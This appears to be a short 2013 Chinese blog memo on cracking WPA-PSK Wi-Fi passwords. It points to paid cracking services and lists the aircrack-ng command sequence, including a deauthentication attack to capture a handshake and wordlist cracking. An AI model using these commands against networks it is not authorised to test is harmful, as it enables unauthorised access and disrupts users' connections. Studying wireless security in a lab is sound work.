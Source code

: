 ```yaml
---
author: bccsafe
comments: true
date: 2013-02-16 14:16:47+00:00
layout: post
slug: '%e7%a0%b4%e8%a7%a3wpa-psk%e5%8a%a0%e5%af%86%e6%97%a0%e7%ba%bf%e7%bd%91%e7%bb%9c'
title: 破解WPA-PSK加密无线网络
wordpress_id: 144
categories:
- wp_bt5 学习笔记 
---
```


破解WPA-PSK加密无线网络

备忘- -记下来...

破解的话还是让别人搞好了

淘宝搜索“跑包”就有，大概10块1次 成功了才收费 不成功么1快或者不收...

更专业的跑包么  国外的站CloudCracker 不过人家收的是美元- -还很贵...

[https://www.cloudcracker.com/](https://www.cloudcracker.com/)

   
    apt-get install mirmon
    ifconfig
    airmon-ng start wlan0 6
    airodump-ng -w nenew -c (channel) --bssid (AP‘s MAC) mon0
    aireplay-ng -0 10 -a (AP’s MAC) -c (CP’s MAC) mon0
    成功标识： WAP Handshake
    aircrack-ng -w (wordlist) -b AP’s MAC (xx.cap)


以上仅为自家备份用

详细教程请参考[http://netsecurity.51cto.com/art/201105/264844.htm](http://netsecurity.51cto.com/art/201105/264844.htm)


